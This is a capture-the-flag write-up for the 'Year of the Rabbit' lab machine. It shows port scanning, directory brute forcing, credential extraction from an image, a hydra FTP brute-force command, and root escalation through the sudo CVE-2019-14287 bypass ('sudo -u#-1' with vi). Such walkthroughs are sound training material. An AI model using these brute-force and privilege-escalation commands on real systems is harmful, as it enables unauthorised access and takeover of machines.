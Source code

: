 **This is a beginning ctf level**  **called Year of the Rabbit**  

Let’s start our Ctf by scanning the open ports using **Nmap** 

nmap -sV **IP**

Output : 

**### PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel**

So we found 3 open ports **FTP** , **SSH** , **HTTP**  let's check 

Port 80 HTTP  : Web Server

2 - Brute Forcinf Directorys with **Dirb**

dirb http://**IP-machine**/

We found a intersting Directory called  **/assets**

inside this Directory we Found  : RickRolled.mp4 & style.css

inside style.css i found a hidden directory :

 /* Nice to see someone checking the stylesheets.
     Take a look at the page: /sup3r_s3cr3t_fl4g.php
  */


When i open this Directory and i was redirect to video in youtube 


lets download  sup3r_s3cr3t_fl4g.php with **wget**  and read the code 

wget http://IP-machine/sup3r_s3cr3t_fl4g.php

```
<html>
	<head>
		<title>sup3r_s3cr3t_fl4g</title>
	</head>
	<body>
		<noscript>Love it when people block Javascript...<br></noscript>
		<noscript>This is happening whether you like it or not... The hint is in the video. If you're stuck here then you're just going to have to bite the bullet!<br>Make sure your audio is turned up!<br></noscript>
		<script>
			alert("Word of advice... Turn off your javascript...");
			window.location = "https://www.youtube.com/watch?v=dQw4w9WgXcQ?autoplay=1";
		</script>
		<video controls>
			<source src="/assets/RickRolled.mp4" type="video/mp4">
		</video>
	</body>
</html>
```
nothing intersting :( 

lets interecpt the request of sup3r_s3cr3t_fl4g.php with **burp**

We Found a hidden Directory :

**`Location: intermediary.php?hidden_directory=/WEx*********`**

We have a new directory to play with. And there we have a **Hot_Babe.png**, so it's stegno Time  :)

Lets us strings to grab the Hidden String :

strings **Hot_Babe.png**  | grep user 

`Eh, you've earned this. Username for FTP is ftpu***`

strings **Hot_Babe.png**  
```

One of these is the password:
...
...
...
...


```

so Now we have a passwords and a user we can brute force **FTP** using hydra :


**hydra -l ftp*** -P pass.txt ftp://IP-machine -t 30**

output : 

`[21][ftp] host: IP  login: ftpu***   password: 5iez1w*******`


run ls -a and we have a file called El**_Creds.txt, use get FILENAME to transfer a file back to your host.

cat El**_Creds.txt

output :

```
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```
a few research i found the name of this language **brainfuck** i use [](https://www.dcode.fr/langage-brainfuck) to decode 


output : 

```
User: e***

Password: DSpDiM******

```
On connection we get a welcome message:

```
Message from Root to Gwe*****:

"Gwe*****, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"
```
lets use find command to find s3cr3t directory

**find / -name s3cr3t 2>/dev/null**

`/usr/games/s3cr3t/`

i Found a intersting file .**th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!**

lets check what inside this file 

**cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!**

output :


```
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQ*****
Honestly!

```
login with a new user

 **su gwendoline**

use basic privilegeescal : 

**sudo -l**

output : 

User gwe****** may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwe******/user.txt


lets check sudo version : **sudo -v**

a few researching  i Found a  **CVE-2019-14287**  

 **`sudo -u#-1 /usr/bin/vi /home/gwe******/user.txt then vi opens up, type :!/bin/bash the exclamation mark allows us to execute commands in the command line!`**  

we are root ! :) 

see u in another write up By 
